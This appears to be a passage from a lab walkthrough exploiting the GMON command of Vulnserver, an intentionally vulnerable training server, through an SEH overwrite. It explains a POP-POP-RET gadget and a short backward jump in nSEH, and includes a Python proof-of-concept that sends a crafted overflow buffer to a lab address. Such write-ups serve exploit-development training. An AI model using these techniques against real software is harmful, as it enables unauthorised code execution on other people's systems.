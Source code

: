 So we are able to hit the ```PPR Gadget``` and also we can control the SEH with our own values

If we follow the stack after the POP-POP and RET, we will be seeing the data from our payload

Our ```nSEH``` value ```BBBB``` which is stored as ```0x42424242``` in stack will be executed next to the ```RET``` from the gadget

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-overwrite-breakpoint-into.png">
</div>

So by abusing the stack with ```PPR Gadget```, we will be redirected into the payload memory which we sent

We can use this as our advantage to place our ```egg hunter``` to execute and search our shellcode

## Stack pivoting

Stack pivoting is a technique in exploitation where we will be drifting in stack memory to make our own shellcode execute

We have placed our ```PPR Gadget``` into SEH, so we have other ```4 bytes``` in ```nSEH```

We can use this 4 bytes to perform a drift in memory, which will be executed after PPR gadget

Lets create the opcode value to drift back ```50 bytes``` using ```nasm-shell```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > jmp short -0x32
00000000  EBCC              jmp short 0xffffffce
```

Adding this opcode in our python script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat overwrite-nseh.py
import socket, sys
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"\xeb\xcc"
payload+=b"\x90\x90" // need 4 bytes, so padded with 2 NOPS
# to overwrite SEH
payload+=b"\xb4\x10\x50\x62"
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 overwrite-nseh.py
```

